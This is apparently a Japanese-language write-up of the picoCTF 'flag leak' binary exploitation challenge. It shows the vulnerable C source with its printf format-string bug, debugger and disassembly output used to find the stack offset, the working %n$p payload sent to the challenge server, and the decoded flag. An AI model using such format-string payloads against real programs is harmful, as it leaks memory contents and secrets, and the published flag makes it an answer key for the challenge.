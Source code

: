 # flag leak : Binary Exploitation

Story telling class 1/2  
I'm just copying and pasting with this [program](vuln). What can go wrong? You can view source [here](vuln.c). And connect with it using:  
`nc saturn.picoctf.net 52043`

Author : Neel Bhavsar

# Solution

とりあえず、実行してみる。
```
$ nc saturn.picoctf.net 52043
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p
Here's a story - 
0xff81f0900xff81f0b00x80493460x702570250x702570250x702570250x702570250x702570250xffffff00(nil)
```
ソースコードを確認する。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
printf(story)のstoryのアドレスからreadflag(flag, FLAGSIZE)のflagのアドレスまでの差分をとて、%n$pでflagの内容を出力する。  
ローカルで実行する場合は、vulnと同ディレクトリにflag.txtを配置する必要があることに注意。
```
$ checksec vuln
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/colza-picoctf/.cache/.pwntools-cache-3.10/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.13.1)
[*] '/home/colza-picoctf/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
storyのアドレスを探す。
```
 804939d:       8d 85 38 ff ff ff       lea    eax,[ebp-0xc8]
 80493a3:       50                      push   eax
 80493a4:       e8 47 fd ff ff          call   80490f0 <printf@plt>
```
```
   0x8049392 <vuln+95>     call   puts@plt                    <puts@plt>

   0x8049397 <vuln+100>    add    esp, 0x10             ESP => 0xffffced0 (0xffffcec0 + 0x10)
   0x804939a <vuln+103>    sub    esp, 0xc              ESP => 0xffffcec4 (0xffffced0 - 0xc)
 ► 0x804939d <vuln+106>    lea    eax, [ebp - 0xc8]     EAX => 0xffffced0 ◂— 'aaaaaaaaaaaaaaaaaaaaa'
```
storyのアドレスが0xffffced0と分かる。  
flagのアドレスを探す。
```
   0x0804934f <+28>:    push   0x40
   0x08049351 <+30>:    lea    eax,[ebp-0x48]
   0x08049354 <+33>:    push   eax
   0x08049355 <+34>:    call   0x80492b6 <readflag>
```
```
   0x08049318 <+98>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804931b <+101>:   sub    esp,0x4
   0x0804931e <+104>:   push   DWORD PTR [ebp-0xc]
   0x08049321 <+107>:   push   eax
   0x08049322 <+108>:   push   DWORD PTR [ebp+0x8]
   0x08049325 <+111>:   call   0x8049100 <fgets@plt>
```
```
───────────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────────
 ► 0x8049351 <vuln+30>    lea    eax, [ebp - 0x48]     EAX => 0xffffcf50 —▸ 0xffffcfb8 —▸ 0xf7ffd020 (_rtld_global) ◂— ...
   0x8049354 <vuln+33>    push   eax
   0x8049355 <vuln+34>    call   readflag                    <readflag>
```
```
 ► 0x8049351 <vuln+30>    lea    eax, [ebp - 0x48]     EAX => 0xffffcf50 —▸ 0xffffcfb8 —▸ 0xf7ffd020 (_rtld_global) ◂— ...
   0x8049354 <vuln+33>    push   eax
   0x8049355 <vuln+34>    call   readflag                    <readflag>
```
flagのアドレスが0xffffcf50と分かる。  
0xffffcf50-0xffffced0=0x80  
32bitであることに留意すると、0x80分のoffsetは`0x80/0x4=0x20=32`である。入力からstoryまでのoffsetが4であり、FLAGSIZEが64であるから36~45を出力させれば良い。
```
$ nc saturn.picoctf.net 52043
Tell me a story and then I'll tell you one >>  %36$p%37$p%38$p%39$p%40$p%41$p%42$p%43$p%44$p%45$p
Here's a story - 
0x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x395f6b630x326539390x7d343238
```
これをcyberchefでFrom HEXする。
```
ocip{FTCk43L_gn1g4lFff0_4tS_9_kc2e99}428
```
並び替える。

flagが得られた。

`picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}`

# References

https://medium.com/@0xwan/picoctf-2022-flag-leak-writeup-binary-exploitation-8d5194fb36f0
